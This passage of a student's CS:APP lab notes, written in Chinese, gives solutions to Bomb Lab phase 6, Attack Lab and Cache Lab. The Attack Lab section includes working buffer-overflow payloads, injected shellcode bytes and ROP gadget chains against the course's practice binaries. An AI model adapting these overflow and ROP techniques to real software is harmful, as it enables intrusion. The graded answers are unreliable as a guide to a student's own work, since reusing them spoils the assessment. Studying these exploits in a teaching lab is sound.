  401162: 2b 10                 sub    (%rax),%edx
  401164: 89 10                 mov    %edx,(%rax)
  401166: 48 83 c0 04           add    $0x4,%rax
  40116a: 48 39 f0              cmp    %rsi,%rax
  40116d: 75 f1                 jne    401160 <phase_6+0x6c>
```

```r
%rsi = %rsp + 0x18 也是循环终止条件
该代码过程相当于 [rsp + 4 * offset] = 7 - [rsp + 4 * offset], offset = [0,1,2,3,4,5]
也就是对应我们输入的6个数字都要减去7

等价C代码
for (int i = 0; i < 6; i ++)
		num[i] = 7 - num[i];
```

继续痛苦阅读

```r
	40116f: be 00 00 00 00        mov    $0x0,%esi

  401174: eb 21                 jmp    401197 <phase_6+0xa3>
  401176: 48 8b 52 08           mov    0x8(%rdx),%rdx
  40117a: 83 c0 01              add    $0x1,%eax
  40117d: 39 c8                 cmp    %ecx,%eax
  40117f: 75 f5                 jne    401176 <phase_6+0x82>

  401181: eb 05                 jmp    401188 <phase_6+0x94>
  401183: ba d0 32 60 00        mov    $0x6032d0,%edx

  401188: 48 89 54 74 20        mov    %rdx,0x20(%rsp,%rsi,2) # 注意
  40118d: 48 83 c6 04           add    $0x4,%rsi
  401191: 48 83 fe 18           cmp    $0x18,%rsi
  401195: 74 14                 je     4011ab <phase_6+0xb7>

  401197: 8b 0c 34              mov    (%rsp,%rsi,1),%ecx
  40119a: 83 f9 01              cmp    $0x1,%ecx
  40119d: 7e e4                 jle    401183 <phase_6+0x8f>
  40119f: b8 01 00 00 00        mov    $0x1,%eax
  4011a4: ba d0 32 60 00        mov    $0x6032d0,%edx
  4011a9: eb cb                 jmp    401176 <phase_6+0x82>
```

```r
mov    %rdx,0x20(%rsp,%rsi,2)
rsp->某个node的地址
这层代码的含义是从前往后遍历第x个节点，并依次把该节点地址存放到rsp+0x20处的6个位置中
```

```r
查看 0x6032d0 是啥
(gdb) x/30 0x6032d0
  0x6032d0 <node1>: 0x0000014c  0x00000001  0x006032e0  0x00000000
  0x6032e0 <node2>: 0x000000a8  0x00000002  0x006032f0  0x00000000
  0x6032f0 <node3>: 0x0000039c  0x00000003  0x00603300  0x00000000
  0x603300 <node4>: 0x000002b3  0x00000004  0x00603310  0x00000000
  0x603310 <node5>: 0x000001dd  0x00000005  0x00603320  0x00000000
  0x603320 <node6>: 0x000001bb  0x00000006  0x00000000  0x00000000

(gdb) x/24w 0x6032d0
0x6032d0 <node1>: 332     1 6304480 0
0x6032e0 <node2>: 168     2 6304496 0
0x6032f0 <node3>: 924     3 6304512 0
0x603300 <node4>: 691     4 6304528 0
0x603310 <node5>: 477     5 6304544 0
0x603320 <node6>: 443     6 0 0
```

继续

```r
	4011ab: 48 8b 5c 24 20        mov    0x20(%rsp),%rbx
  4011b0: 48 8d 44 24 28        lea    0x28(%rsp),%rax
  4011b5: 48 8d 74 24 50        lea    0x50(%rsp),%rsi   ; 0~5
  4011ba: 48 89 d9              mov    %rbx,%rcx
  4011bd: 48 8b 10              mov    (%rax),%rdx
  4011c0: 48 89 51 08           mov    %rdx,0x8(%rcx)
  4011c4: 48 83 c0 08           add    $0x8,%rax
  4011c8: 48 39 f0              cmp    %rsi,%rax
  4011cb: 74 05                 je     4011d2 <phase_6+0xde>
  4011cd: 48 89 d1              mov    %rdx,%rcx
  4011d0: eb eb                 jmp    4011bd <phase_6+0xc9>
```

```r
struct node {
    int x;
    int y;
    node* next;
}

rbx 一开始是存的链表首地址
rax 是一个栈指针，指向rsp+0x20中存放的链表地址，进行(rax)则可得到其链表地址值
这段代码的意思是，把rsp+0x20中存放的6个链表地址，从低到高进行链接(->next)
```

```r
其实上面的内容简单来说
就是将 0x6032d0中6个节点地址，根据我们给出的参数7-num[i]
从前往后遍历0x6032d0中6个节点地址，选取第x(7-num[i])个节点地址
依次放到 rsp+0x20 栈里
然后再将 rsp+0x20 中的链表依次链接上去
0x603320 <node6>:
0x603310 <node5>:
0x603300 <node4>:
0x6032f0 <node3>:
0x6032e0 <node2>:
0x6032d0 <node1>:

在栈内大致是这样的，[node]存储的是node地址，然后每个node->next的是栈内上面一个node
	NULL
   ^
   |
[node]
   ^
   |
[node]
   ^
   |
[node]
   ^
   |
[node]
   ^
   |
[node]
   ^
   |
[node] <- rsp + 0x20

```

最后查看

```r
	4011d2: 48 c7 42 08 00 00 00  movq   $0x0,0x8(%rdx)   ; 最后一个next置0
  4011d9: 00 
  4011da: bd 05 00 00 00        mov    $0x5,%ebp
  4011df: 48 8b 43 08           mov    0x8(%rbx),%rax
  4011e3: 8b 00                 mov    (%rax),%eax
  4011e5: 39 03                 cmp    %eax,(%rbx)
  4011e7: 7d 05                 jge    4011ee <phase_6+0xfa>
  4011e9: e8 4c 02 00 00        callq  40143a <explode_bomb>
  4011ee: 48 8b 5b 08           mov    0x8(%rbx),%rbx
  4011f2: 83 ed 01              sub    $0x1,%ebp
  4011f5: 75 e8                 jne    4011df <phase_6+0xeb>
```

```r
(gdb) x/24w 0x6032d0
0x6032d0 <node1>: 332     1 6304480 0
0x6032e0 <node2>: 168     2 6304496 0
0x6032f0 <node3>: 924     3 6304512 0
0x603300 <node4>: 691     4 6304528 0
0x603310 <node5>: 477     5 6304544 0
0x603320 <node6>: 443     6 0 0

ebp = 5
rax = [rbx+0x8] = node[0]->next
eax = [rax] = (node[0]->next).x
if (node[0].x > (node[0]->next).x) boom
阅读后可知道
需要让 node.x 从高到低，降序

即让值如此排列：
(924) -> (691) -> (477) -> (443) -> (332) -> (168)
相应的结点序号序列应该是
(3) -> (4) -> (5) -> (6) -> (1) -> (2)

然后由于是 7 - num[i]，因此为
4 3 2 1 6 5
```

### 总结

本次实验挺有趣的，学到了 `GDB` 的一些调试功能。

phase_7  挺难的，参考了别人的内容后，总算完全理解了，原来是把节点地址放到栈内进行调整顺序了，最后再连接上去。

## Attack Lab


实验分为两个部分，一个是利用栈溢出和注入代码的攻击，另一个是

```bash
objdump -d ctarget >> ctaget.S
```

```bash
./ctarget -q # -q: Don’t send results to the grading server
./hex2raw < result.txt # 生成你希望的word，注意如果要0则输入00，另外是小端字节序
./hex2raw < result.txt | ./ctarget
```

### Phase 1

本题要求 `test` 函数中调用 `getbuf` 时，进行溢出攻击，转而运行 `touch1` 函数

```cpp
1 void test()
2 { 
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```

查看 `test` 函数，

```r
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq
```

查看 `getbuf` 看到分配了 `0x28(40)` 栈内存，

```r
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们知道 `touch1` 地址

```r
00000000004017c0 <touch1>:
```

我们只需要让 `rsp + 0x28` 位置（该位置为返回地址）覆盖成 `touch1` 地址，也就是前40个字节随便填，之后填写 `touch1` 地址即可

```r
file ans1.txt
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00

./hex2raw < ans1.txt | ./ctarget -q

Cookie: 0x
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Phase 2

在  `test` 中要求跳转到 `touch2`，同时要要传参 `rdi` ，其值为 cookie，`0x59b997fa`

```r
00000000004017ec <touch2>:

00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>

(gdb) b * 0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.

(gdb) p $rsp
$1 = (void *) 0x5561dc78
(gdb)
```

怎么说呢，大概就是这样子，返回地址需要我们进入 `GDB` 去看看 `rsp` 的值是什么 `0x5561dc78`


然后插入代码，获得机器代码

```r
file code.s
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret

gcc -c code.s

objdump -d code.o

code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

- 答案
    
    ```r
    file ans2.txt
    48 c7 c7 fa 97 b9 59 
    68 ec 17 40 00 
    c3 
    00 00 00 00 00 00 00 
    00 00 00 00 00 
    00 00 00 00 00 
    00 00 00 00 00 
    00 00 00 00 00 
    78 dc 61 55 00 00 00 00
    
    ./hex2raw < ans2.txt | ./ctarget -q
    
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
    	user id	bovik
    	course	15213-f15
    	lab	attacklab
    	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
    ```
    

### Phase 3

本题与 Part 2 类似，要求我们在调用 `test` 函数时，利用 `getbuf` 函数发起溢出攻击，在栈内插入代码，覆盖返回地址，现在不同的是因为我们想放的数据到栈内有可能会被覆盖掉，需要放到安全的地方，我们可以选取 `test` 函数在调用 `getbuf` 前的栈位置就能保证不被覆盖了。

```r
Cookie:
0x59b997fa
35 39 62 39 39 37 66 61

0000000000401968 <test>:
  401968:   48 83 ec 08             sub    $0x8,%rsp
  40196c:   b8 00 00 00 00          mov    $0x0,%eax
  401971:   e8 32 fe ff ff          callq  4017a8 <getbuf>

00000000004017a8 <getbuf>:
  4017a8:   48 83 ec 28             sub    $0x28,%rsp
  4017ac:   48 89 e7                mov    %rsp,%rdi
  4017af:   e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:   b8 01 00 00 00          mov    $0x1,%eax
  4017b9:   48 83 c4 28             add    $0x28,%rsp
  4017bd:   c3                      retq   
  4017be:   90                      nop
  4017bf:   90                      nop

<test> 的栈rsp
(gdb) b *0x40196c
Breakpoint 1 at 0x40196c: file visible.c, line 92.
(gdb) p $rsp
$1 = (void *) 0x5561dca8

<getbuf> 的栈rsp
(gdb) b * 0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
(gdb) p $rsp
$1 = (void *) 0x5561dc78
(gdb)
```

```r
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret

0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
7:   68 fa 18 40 00          pushq  $0x4018fa
c:   c3                      retq
```


- 答案
    
    ```r
    ./hex2raw < ans3.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
    	user id	bovik
    	course	15213-f15
    	lab	attacklab
    	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
    ```
    

### Phase 4

ROP 攻击是利用现成的代码组装好，变成执行自己的逻辑。改变字节码的用途可以通过仅读取部分字节码实现不同的功能。

实验思路还是使用栈溢出攻击，将返回地址修改成要执行的指令的地址

重复 Phase 2 的攻击

```r
想办法将赋值Cookie 给 rdi
然后调用 touch2

00000000004017ec <touch2>:

大概如此

[return address] -> gadget <touch2>  [0x4017ec]
[cookie]         -> cookie           [0x59b997fa]
[return address] -> gadget pop %rdi  [5f]
[40]

发现
402b18:	41 5f                	pop    %r15
402b1a:	c3                   	retq

0x402b19 pop %rdi
```

- 此解法没有使用 start_fram 和 end_farm 区域的内容
    
    ```r
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    19 2b 40 00 00 00 00 00 -> pop %rdi
    fa 97 b9 59 00 00 00 00 -> cookie
    ec 17 40 00 00 00 00 00 -> call touch2
    
    ./hex2raw < ans4.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
    	user id	bovik
    	course	15213-f15
    	lab	attacklab
    	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 19 2B 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
    ```
    
- 使用 start_fram 和 end_farm 区域
    
    ```r
    大致如下
    [return address] -> gadget <touch2>   [0x4017ec]
    [return address] -> gadget mov %rax, %rdi
    [cookie]         -> cookie            [0x59b997fa]
    [return address] -> gadget pop %rax   [58]
    [40]
    
    00000000004019a0 <addval_273>:
      4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
      4019a6:   c3                      retq
    
    4019ab pop rax
    
    00000000004019a7 <addval_219>:
      4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
      4019ad:   c3                      retq   
    
    4019c5 mov %rax, %rdi
    
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00 -> pop %rax
    fa 97 b9 59 00 00 00 00 -> cookie
    c5 19 40 00 00 00 00 00 -> mov %rax, %rdi
    ec 17 40 00 00 00 00 00 -> call touch2
    ```
    

### Phase 5

难点在于怎么存放字符串到一个不会被覆盖的地方上使用

```r
rsp+0x37[Cookie] -> [0x59b997fa] [35 39 62 39 39 37 66 61]
        [xxx]
        [touch3] -> <touch3> [0x4018fa]
        [ret] -> mov %rax, %rdi [4019a2]
        [ret] -> add $0x37, %rax  [4019d8]
rsp->   [ret] -> mov %rsp, %rax [401aad]
[40]

0000000000401aab <setval_350>:
  401aab:   c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:   c3     

00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3  

00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3 

00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq

```

```r
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 -> mov %rsp, %rax
d8 19 40 00 00 00 00 00 -> add $0x37, %rax
a2 19 40 00 00 00 00 00 -> mov %rax, %rdi
fa 18 40 00 00 00 00 00  -> <touch3>
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 
35 39 62 39 39 37 66 61 -> Cookie

./hex2raw < ans5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 D8 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 
[root@23c86e88810d target1]#
```

### 总结

这次的实验是利用栈缓冲区溢出，把原先返回地址给覆盖掉，修改成自己想要返回的内容，

- 如果允许栈内代码可执行，就可以在栈内生成二进制代码，从而执行自己的逻辑
- 如果不允许栈内代码执行，则可以利用已存在的二进制序列，读入不同位置的字节码，会被解析成其他指令，我们可以利用 ROP 攻击来实现自己的目标，ROP 是利用现成的代码组装好，改变字节码的用途可以通过仅读取部分字节码实现不同的功能
- 针对缓冲区攻击的事例，我们应该编写安全代码，即要对使用缓冲区的地方要尽可能的小心，不要预设行为不会超过缓冲区大小

> ref
[https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md](https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md)
[https://zhuanlan.zhihu.com/p/339802171](https://zhuanlan.zhihu.com/p/339802171)
[https://zhuanlan.zhihu.com/p/60724948](https://zhuanlan.zhihu.com/p/60724948)
> 

## Cache Lab

```bash
本实验要求你修改 csim.c 和 trans.c
Part A 设计实现模拟 cache
Part B 转置矩阵优化
sudo yum install valgrind # 记得安装
make clean
make
valgrind --log-fd=1 --tool=lackey -v --trace-mem=yes ls -l
```

### Part A

> In Part A you will write a cache simulator in `csim.c` that takes a `valgrind` memory trace as input
> 

> ref 
[https://github.com/Exely/CSAPP-Labs/blob/master/notes/cachelab.md](https://github.com/Exely/CSAPP-Labs/blob/master/notes/cachelab.md)
[https://zhuanlan.zhihu.com/p/28585726](https://zhuanlan.zhihu.com/p/28585726)
> 

本题需要你模拟Cache的行为，但又不是真的完全模拟

一开始我们需要处理传递参数

```bash

-s <s>: Number of set index bits (S = 2sis the number of sets)
-E <E>: Associativity (number of lines per set)
-b <b>: Number of block bits (B = 2bis the block size)
-t <tracefile>: Name of the valgrind trace to repl

其中 -t 是传递文件路径，需要 FILE fopen 进行读入

```

对于读入的文件

```
我们只关注数据，我们对指令缓存访问 I 不感兴趣，因此忽略
    I instruction load
    S data store
    M data modify i.e., a data load followed by a data store
    L data load
		
		L 数据加载
    S 数据存储
    M 数据修改，其实就是 L+S
    
    [space]operation address,size

    address 给的是 64位
    size 指定访问的字节数  // 这里我们同样也不会使用到它，因为是模拟
```

接着思考怎么规划

```

我们直接造一个大表，大数组，即 S * E 行的大表
struct Cache {
    int valid;
    int tab;
    int count;  // LRU 访问次数
}

创建大表
    malloc(sizeof(Cache) * S * E)

找到第 m 组第 n 行
    Cache[m * E + n]

地址
[tag][groupidx][offset]

Cache中
[valid][tag][高速缓存块]  // 在模拟中，[高速缓存块] 我们实际上不需要
```

总体思路是

- 先读取 `argv` 给定的参数，对这些参数进行解析
- 根据 `argv` 的参数，初始化相应的内容，例如创建和初始化 `Cache`
- 由 `-t` 给出的参数，`fopen` 读入数据，对读入数据处理
- 对 `L` 和 `S` 行为一致，对 `M` 则相当于 `L+S`

`./test-csim` 满分 `27`

- 答案
    
    ```cpp
    #include "cachelab.h"
    #include <string.h>
    #include <getopt.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    /*
        S 组 S = 2^s
        E 行 E = 2^e
        B 块 B = 2^b
    
        不要想太多，太复杂，因为这只是一个关于 Cache 的模拟
    
        我们先要处理 main 的 args 参数传递
        -s <s>: Number of set index bits (S = 2sis the number of sets)
        -E <E>: Associativity (number of lines per set)
        -b <b>: Number of block bits (B = 2bis the block size)
        -t <tracefile>: Name of the valgrind trace to repl
    
        其中 -t 是传递文件路径，需要 FILE open
    
        对读入文件内容：
            我们只关注数据，我们对指令缓存访问 I 不感兴趣，因此忽略
            I instruction load
            S data store
            M data modify i.e., a data load followed by a data store
            L data load
    
            L 数据加载
            S 数据存储
            M 数据修改，其实就是 L+S
            
            [space]operation address,size
    
            address 给的是 64位
            size 指定访问的字节数  // 这里我们同样也不会使用到它，因为是模拟
    
        接着思考怎么规划
        我们直接造一个大表，大数组，即 S * E 行的大表
        struct Cache {
            int valid;
            int tag;
            int count;  // LRU 访问次数
        }
    
        创建大表
            malloc(sizeof(Cache) * S * E)
    
        找到第 m 组第 n 行
            Cache[m * E + n]
    
        地址
        [标记][组索引][块偏移]
        [Tag][GroupIdx][offset]
    */
    
    // ref https://github.com/Exely/CSAPP-Labs/blob/master/notes/cachelab.md
    // ref https://zhuanlan.zhihu.com/p/28585726
    #define IDX(m, n, E) m * E + n
    
    char input[30];
    int hits, misses, evictions;  // 命中、不命中、驱逐
    
    struct Cache
    {
        int valid;
        int tag;
        int count;  // 时间标记，数值越小表示距上次访问时间很久
    };
    
    int Atoi(char *s) {
        int res = 0;
        int n = strlen(s);
        for (int i = 0; i < n; i ++)
            res = res * 10 +( s[i] - '0');
        return res;
    }
    
    int hex2dec(char c) {
        if (c >= '0' && c <= '9') return c - '0';
        if (c >= 'A' && c <= 'Z') return 10 + c - 'A';
        if (c >= 'a' && c <= 'z') return 10 + c - 'a';
        return 0;
    }
    
    // 因为要求不能有任何Warning，所以干脆就把参数加上了，当然也可以干脆从一开始就不创建变量
    void load(int tag, int groupidx, int offset, struct Cache* cache, int E, int count, int B, int size) {
        for (int i = 0; i < E; i ++) {  // 在该组中，枚举行
            if (cache[IDX(groupidx, i, E)].valid && cache[IDX(groupidx, i, E)].tag == tag) {
                cache[IDX(groupidx, i, E)].count = count;
                hits ++;
                return;
            }
        }
    
        misses ++;  // 没找到，则尝试找出无效位替换
        for (int i = 0; i < E; i ++) {
            if (cache[IDX(groupidx, i, E)].valid == 0) {
                cache[IDX(groupidx, i, E)].valid = 1;
                cache[IDX(groupidx, i, E)].tag = tag;
                cache[IDX(groupidx, i, E)].count = count;
                return;
            }
        }
    
        evictions ++;  // 需要用LRU找出最近最久的替换掉
        int min_idx = 0, min_cnt = 1e9;
        for (int i = 0; i < E; i ++) {
            if (cache[IDX(groupidx, i, E)].count < min_cnt) {
                min_cnt = cache[IDX(groupidx, i, E)].count;
                min_idx = i;
            }
        }
    
        cache[IDX(groupidx, min_idx, E)].valid = 1;
        cache[IDX(groupidx, min_idx, E)].tag = tag;
        cache[IDX(groupidx, min_idx, E)].count = count;
    }
    
    int main(int argc, char *argv[])
    {
        int s, S, E, b, B;
        FILE *fp;
        for (int i = 1; i < argc; i ++) {
            if (argv[i][0] == '-') {
                if (argv[i][1] == 's') {
                    s = Atoi(argv[++i]);
                    S = 1 << s;
                }
                else if (argv[i][1] == 'E') {
                    E = Atoi(argv[++i]);
                }
                else if (argv[i][1] == 'b') {
                    b = Atoi(argv[++i]);
                    B = 1 << b;
                }
                else if (argv[i][1] == 't') {
                    fp = fopen(argv[++i], "r");
                }
            }
        }
        struct Cache *cache = (struct Cache*)malloc(sizeof(struct Cache) * S * E);  //sizeof(struct Cache)
        for (int i = 0; i < S * E; i ++)
        {
            cache[i].valid = 0;
            cache[i].tag = 0;
            cache[i].count = 0;
        }
    
        printf("sssss %d %d %d\n", s, E, b);
        int count = 0;  // 时间标记
    
        while (fgets(input, 30, fp)) {
            int op = 0;
            char c;
            int flag = 0;
    
            long address = 0;  // address = [Tag][groupidx][offset]
            int tag = 0;
            int groupidx = 0;
            int offset = 0;  // 实际模拟不会用到
            int size = 0;  // 实际模拟不会用到
            count ++;  // 当前时间点
    
            for (int i = 0; (c = input[i]) && (c != '\n'); i ++) {  // fix
                if (c == ' ') continue;
                if (c == 'I') op = 0;  // 忽略指令
                else if (c == 'L' || c == 'S') op = 1;  // 加载和存储
                else if (c == 'M') op = 2;  // 修改
                else if (c == ',') flag = 1;
                else {
                    if (flag) size = hex2dec(c);  // fix
                    else address = address*16 + hex2dec(c);  // 地址是64-bits
                }
            }
            // 这里看起来是把它倒转了，例如原本[100]，变成了[001]，只是改变了解释，并不影响
            // offset 我们实际上并不会使用到
            for (int i = 0; i < b; i ++) {
                offset = (offset << 1) + (address & 1);
                // offset = offset*2 + address % 2;
                address >>= 1;
            }
            for (int i = 0; i < s; i ++) {
                // groupidx = groupidx*2 + address % 2;
                groupidx = (groupidx << 1) + (address & 1);
                address >>= 1;
            }
            tag = address;
            if (op == 1) load(tag, groupidx, offset, cache, E, count, B, size);
            else if (op == 2) {
                load(tag, groupidx, offset, cache, E, count, B, size);
                hits ++;
            }
        }
        fclose(fp);
        free(cache);
        printSummary(hits, misses, evictions);
        return 0;
    }
    ```
    

### Part B

参考

> [https://github.com/Exely/CSAPP-Labs/blob/master/notes/cachelab.md](https://github.com/Exely/CSAPP-Labs/blob/master/notes/cachelab.md)
[https://www.jianshu.com/p/e68dd8305e9c](https://www.jianshu.com/p/e68dd8305e9c#fnref1)
[https://zhuanlan.zhihu.com/p/28585726](https://zhuanlan.zhihu.com/p/28585726)
[https://zhuanlan.zhihu.com/p/142942823](https://zhuanlan.zhihu.com/p/142942823)
> 

> 遇到 `Error: Program timed out.` 这个问题时，大概率是因为共享文件，或是文件映射造成的，我们需要把文件复制到其他地方去就可以了
> 

```bash
mkdir Desktop
rm -rf Desktop
cp -f -R csapp/ch6/cachelab/ Desktop/
```

矩阵转置优化

```cpp
s = 5 E = 1 b = 5  ==> 1024B
只能使用12个局部变量
M = 32 N = 32
M = 64 N = 64
M = 61 N = 67

32 组每 1 行 32B，32/4 = 8int 一个块能存 8 个 int
```

32 X 32

```bash
32 * 8 = 256int
1行有32个int，1行需要4个块存下
4*8*8 = 256  // 一行有4个块，1个块存放8个int，总共有8行
那么就分块 8*8
考虑到可能会有缓存冲突，使用局部变量来保存数据

[]# ./test-trans -M 32 -N 32

Function 0 (2 total)
Step 1: Validating and generating memory traces
Step 2: Evaluating performance (s=5, E=1, b=5)
func 0 (Transpose submission): hits:1766, misses:287, evictions:255

Function 1 (2 total)
Step 1: Validating and generating memory traces
Step 2: Evaluating performance (s=5, E=1, b=5)
func 1 (Simple row-wise scan transpose): hits:870, misses:1183, evictions:1151

Summary for official submission (func 0): correctness=1 misses=287

TEST_TRANS_RESULTS=1:287
```

64 X 64

```bash
就是还是8x8，在8x8中再分块4x4
只不过在B数组里做点手脚，把A中数据复制到B中
再对B数组的数据进行调整

8*2*2*2*8=512

我们还是继续使用8x8，如果直接使用4x4是会浪费缓存空间的
对8x8，我们再分块成4x4进行处理
我们把A[]中一行8个元素，直接放到B[]中竖排叠放，对于后面4个元素，则是偏移行+4处放置
接着我们对A[]竖排下面获取4个元素，将其放到B[]数组右上角
注意在赋值前我们会临时保存B数组原有数据
最后把临时保存的变量，重新赋到B[]中

这个过程有点像是摆积木一样

[]# ./test-trans -M61 -N67

Function 0 (2 total)
Step 1: Validating and generating memory traces
Step 2: Evaluating performance (s=5, E=1, b=5)
func 0 (Transpose submission): hits:6187, misses:1992, evictions:1960

Function 1 (2 total)
Step 1: Validating and generating memory traces
Step 2: Evaluating performance (s=5, E=1, b=5)
func 1 (Simple row-wise scan transpose): hits:3756, misses:4423, evictions:4391

Summary for official submission (func 0): correctness=1 misses=1992

TEST_TRANS_RESULTS=1:1992
```

- 答案
    
    ```cpp
    void transpose_submit(int M, int N, int A[N][M], int B[M][N])
    {
        if (M == 32) {
            int i, j, ii, a0, a1, a2, a3, a4, a5, a6, a7;
            for (i = 0; i < M; i += 8) {
                for (j = 0; j < M; j += 8) {
                    for (ii = i; ii < i + 8; ii ++) {
                        a0 = A[ii][j];
                        a1 = A[ii][j+1];
                        a2 = A[ii][j+2];
                        a3 = A[ii][j+3];
                        a4 = A[ii][j+4];
                        a5 = A[ii][j+5];
                        a6 = A[ii][j+6];
                        a7 = A[ii][j+7];
                        B[j][ii] = a0;
                        B[j+1][ii] = a1;
                        B[j+2][ii] = a2;
                        B[j+3][ii] = a3;
                        B[j+4][ii] = a4;
                        B[j+5][ii] = a5;
                        B[j+6][ii] = a6;
                        B[j+7][ii] = a7;
                    }
                }
            }
        } else if (M == 64) {
            int i, j, k, tmp, a0, a1, a2, a3, a4, a5, a6, a7;
            for (i = 0; i < N; i += 8) {
                for (j = 0; j < N; j += 8) {
                    for (k = 0; k < 4; k ++) {
                        // 复制A[]数组一行8个元素
                        a0 = A[i+k][j+0];
                        a1 = A[i+k][j+1];
                        a2 = A[i+k][j+2];
                        a3 = A[i+k][j+3];
                        a4 = A[i+k][j+4];
                        a5 = A[i+k][j+5];
                        a6 = A[i+k][j+6];
                        a7 = A[i+k][j+7];
    
                        // 复制到B[]数组一行4个元素竖排放置
                        B[j+0][i+k] = a0;
                        B[j+1][i+k] = a1;
                        B[j+2][i+k] = a2;
                        B[j+3][i+k] = a3;
                        // 将后续4个元素同样竖排放置，但放置到偏移4
                        B[j+0][i+k+4] = a4;
                        B[j+1][i+k+4] = a5;
                        B[j+2][i+k+4] = a6;
                        B[j+3][i+k+4] = a7;
                    }
    
                    for (k = 0; k < 4; k ++) {
                        // 从A[]中获取下半部分竖排
                        a0 = A[i+4][j+k], a4 = A[i+4][j+k+4]; 
